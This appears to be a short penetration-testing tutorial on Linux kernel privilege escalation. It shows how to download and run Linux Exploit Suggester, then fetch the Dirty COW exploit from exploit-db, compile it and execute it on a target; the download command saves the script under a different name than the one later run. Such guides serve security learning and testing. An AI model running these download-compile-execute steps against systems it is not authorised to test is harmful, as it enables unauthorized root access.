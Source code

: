 Linux Kernel Exploits target vulnerabilities in the **Linux Kernel**, the core component of the operating system. These exploits typically lead to **privilege escalation**, where an attacker can gain higher system privileges.

## Linux Exploit Suggester
The [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester) tool identifies kernel vulnerabilities by analyzing the system's Linux kernel version and suggests relevant exploits that can be used for privilege escalation.

#### Downloading the Tool
Download the raw script.
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

#### Running the script

1. **Execute the script**:  
Simply run it to detect kernel vulnerabilities:
```bash
./linux-exploit-suggester.sh
```

2. **Analyze the output**:  
The script identifies the Linux kernel version and lists exploits for potential privilege escalation.
```bash
Kernel Version: 4.4.0-21-generic
Potential Exploits:
[+] Dirty Cow (CVE-2016-5195)
    https://www.exploit-db.com/exploits/40839/
[+] Overlayfs (CVE-2015-1328)
    https://www.exploit-db.com/exploits/37292/
```

#### Using Suggested Exploits

1. **Download the exploit**:  
Fetch the suggested exploit from `exploit-db` or the CVE link provided.

```bash
wget https://www.exploit-db.com/download/40839 -O dirtycow.c
```

2. **Compile the exploit** (if needed):  
Use `gcc` or `make` to compile the exploit code.

```bash
gcc dirtycow.c -o dirtycow -pthread
```

3. **Run the exploit**:  
Execute the binary on the target system.

```bash
./dirtycow
```